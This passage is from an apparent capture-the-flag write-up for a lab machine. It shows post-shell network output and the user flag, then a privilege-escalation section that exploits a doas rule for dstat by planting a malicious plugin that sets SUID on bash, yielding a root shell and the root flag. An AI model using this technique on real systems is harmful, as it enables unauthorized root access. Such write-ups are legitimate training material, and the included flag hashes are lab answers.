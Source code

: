 ```
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13782  bytes 5047367 (5.0 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13782  bytes 5047367 (5.0 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

uid=1001(player) gid=1001(player) groups=1001(player)
be8766cebb0ff493ce75400f984ec86d
```

### PrivEsc

When running linpeas there are two intersting things from the output the first that we got a `/usr/local/share/doas` suid binary, second `/usr/local/share/dstat` which is a writable directory for the player user and root. 
Now, doas is a program that lets you execute commands as another user, thats great but it doesn't work on everything only specific stuff, But the command it does let you run is `/usr/bin/dstat` and we have writable permissions for it's folder, so let's learn more about dstat. Found this article about dstat privEsc https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/ so I just followed it but instead at the end running it with sudo I ran it with doas.

<b>The exploit:</b>

```

player@soccer:/usr/local/share/dstat$ nano dstat_hacked.py
'The Code'
import os
os.system("chmod +s /usr/bin/bash")
'EOF'

player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --hacked
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_hacked failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# cat root.txt 
299b4a5457c47865065a6852552d3dc5

```